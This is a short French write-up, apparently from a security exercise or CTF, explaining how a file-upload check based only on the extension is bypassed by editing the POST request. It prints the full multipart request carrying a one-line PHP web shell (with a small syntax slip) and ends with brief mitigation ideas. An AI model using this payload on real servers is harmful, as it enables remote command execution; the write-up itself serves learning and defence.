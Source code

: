 <p>Sur la page ?page=upload# on peut uploader un fichier. Une vérification est faite sur l'extension du fichier, mais pas sur son mimeType ou son contenu. On peut envoyer un fichier avec du code tant qu'il a une extension en .jpg
J'ai ouvert le moniteur de réseau du navigateur, et j'ai uploadé un fichier jpeg valide. J'ai inspecté la requête post, et je l'ai modifiée. J'ai simplement changé l'extension du fichier dans le corps de la requête pour qu'il soit en php, et j'ai remplacé le contenu binaire de l'image pas 
le corps de la requête :

<br>
-----------------------------388438716520295718423503181162
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
-----------------------------388438716520295718423503181162
Content-Disposition: form-data; name="uploaded"; filename="JPEG_example_flower.php"
Content-Type: image/jpeg

<?php system($_GET(['cmd']); ?>
-----------------------------388438716520295718423503181162
Content-Disposition: form-data; name="Upload"

Upload
-----------------------------388438716520295718423503181162--
<br>
le fichier que j'ai utilisé comme base est à côté de ce fichier j'ai utilisé cette vidéo<li>https://www.youtube.com/watch?v=YAFVGQ-lBoM</li> pour faire mon attaque pour mitiger cette attaque, on pourrait faire au moins une vérification de mimeType. On pourrait aussi ne pas exécuter ce qui devrait être une image, mais je ne sais pas comment faire. Apparement, il n'y a pas de consensus pour mitiger ce genre de faille. 
</p>
